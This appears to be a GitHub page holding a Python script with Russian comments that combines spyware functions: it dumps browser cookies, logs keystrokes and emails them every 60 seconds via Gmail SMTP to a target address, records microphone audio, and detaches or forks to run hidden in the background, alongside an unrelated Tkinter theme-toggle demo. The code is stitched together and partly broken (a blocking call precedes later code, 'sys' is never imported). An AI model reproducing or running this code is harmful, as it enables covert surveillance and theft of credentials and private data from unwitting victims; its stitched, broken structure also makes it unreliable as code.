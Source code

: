 jamshed
import requests
from bs4 import BeautifulSoup
import browser_cookie3
import pyotp
import telebot
import os
import smtplib
import keyboard
import pyaudio
import wave
import tkinter as tk
from threading import Timer
from datetime import datetime



# Загрузка cookies из браузера
def get_browser_cookies():
    cookies = browser_cookie3.load()  # Загрузка cookies из браузера
    for cookie in cookies:
        print(f"Name: {cookie.name}, Value: {cookie.value}, Domain: {cookie.domain}")

# Генерация OTP-кода
def generate_otp():
    totp = pyotp.TOTP("base32secret3232")
    otp_code = totp.now()
    print(f"Generated OTP: {otp_code}")



# Логирование клавиш
log = ""

def callback(event):
    global log
    log += event.name

def send_log():
    global log
    if log:
        # Отправка лога по email
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login("your_email@gmail.com", "your_password")
        server.sendmail("your_email@gmail.com", "target_email@gmail.com", log)
        server.quit()
        log = ""
    Timer(60, send_log).start()  # Отправка лога каждые 60 секунд

keyboard.on_release(callback)
Timer(60, send_log).start()
keyboard.wait()

# Запись аудио
def record_audio(filename, duration=5):
    FORMAT = pyaudio.paInt16
    CHANNELS = 1
    RATE = 44100
    CHUNK = 1024

    audio = pyaudio.PyAudio()

    stream = audio.open(format=FORMAT, channels=CHANNELS,
                        rate=RATE, input=True,
                        frames_per_buffer=CHUNK)

    frames = []

    for _ in range(0, int(RATE / CHUNK * duration)):
        data = stream.read(CHUNK)
        frames.append(data)

    stream.stop_stream()
    stream.close()
    audio.terminate()

    with wave.open(filename, 'wb') as wf:
        wf.setnchannels(CHANNELS)
        wf.setsampwidth(audio.get_sample_size(FORMAT))
        wf.setframerate(RATE)
        wf.writeframes(b''.join(frames))

# Тема переключателя для Tkinter
def toggle_theme():
    if root["bg"] == "white":
        root["bg"] = "black"
        label["fg"] = "white"
    else:
        root["bg"] = "white"
        label["fg"] = "black"

root = tk.Tk()
root.title("Theme Toggle")

label = tk.Label(root, text="Hello, World!", bg=root["bg"])
label.pack()

button = tk.Button(root, text="Toggle Theme", command=toggle_theme)
button.pack()

root.mainloop()

# Запуск кода в фоновом режиме
def run_in_background():
    if os.name == "nt":
        # Для Windows
        import win32api
        win32api.FreeConsole()
    else:
        # Для Linux/macOS
        if os.fork():
            sys.exit()

# Пример использования
run_in_background()
для установка
pip install -r requirements.txt

